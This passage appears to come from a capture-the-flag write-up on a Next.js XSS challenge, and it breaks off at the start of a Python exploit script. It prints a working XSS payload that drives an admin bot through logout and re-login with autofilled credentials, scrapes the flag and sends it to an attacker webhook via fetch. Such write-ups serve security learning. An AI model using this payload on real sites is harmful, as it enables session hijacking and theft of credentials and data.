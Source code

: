 
So we can open a new window to:
- **logout** the bot from the previous session (our user that triggered the XSS), 
- visit `/login` by pressing the login button (just visiting `/login` won't do the trick due to nextjs handling the re-rendering), 
- we will have already the credentials filled, so we can just **submit the form**. 
- we can read the flag from the `/dashboard` or `/settings` page. 

Note that we can directly interact with the window from the XSS only because the XSS is triggered in the same origin, thus not violating the same-origin policy. 

My final xss payload:
```html
<img onerror=document.write(atob(\"" + encode_base64(xss_payload) + "\")) src='invalid-image' />
```

where `xss_payload` is:
```html
<script>
const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
(async () => {
    w = window.open('/')
    await sleep(1000);
    logoutbtn = w.document.getElementsByClassName('logout-btn')
    if (logoutbtn.length > 0) {
        // click logout button if exists
        w.document.getElementsByClassName('logout-btn')[0].click();
        await sleep(500);
    }
    // look for <a href="/login">Login</a> tag and click it
    w.document.querySelector('a[href="/login"]').click();
    // wait for autofill
    await sleep(1000);
    w.document.getElementsByClassName('btn')[0].click();
    // wait for redirect / login
    await sleep(1000);
    // extract flag from body
    const body = w.document.body.innerHTML;
    const flagMatch = body.match(/toh\\{{([^}}]+)\\}}/);
    if (flagMatch) {
        const flag = flagMatch[1];
        fetch('{webhook_url}/?flag=' + encodeURIComponent(flag), { 'mode': 'no-cors' });
    } else {
        console.error('Flag not found in body:', body);
    }
})();
</script>
```

<span id="exploit-script"></span>

## 4. Exploit script

```py
import requests
from pyngrok import ngrok
import sys

s = requests.Session()
# ignore cert errors, needed for local testing
s.verify = False

# check for LOCAL or REMOTE
local = sys.argv[1] != 'remote' if len(sys.argv) > 1 else True

bot_url = "http://localhost:5001"
if not local:
```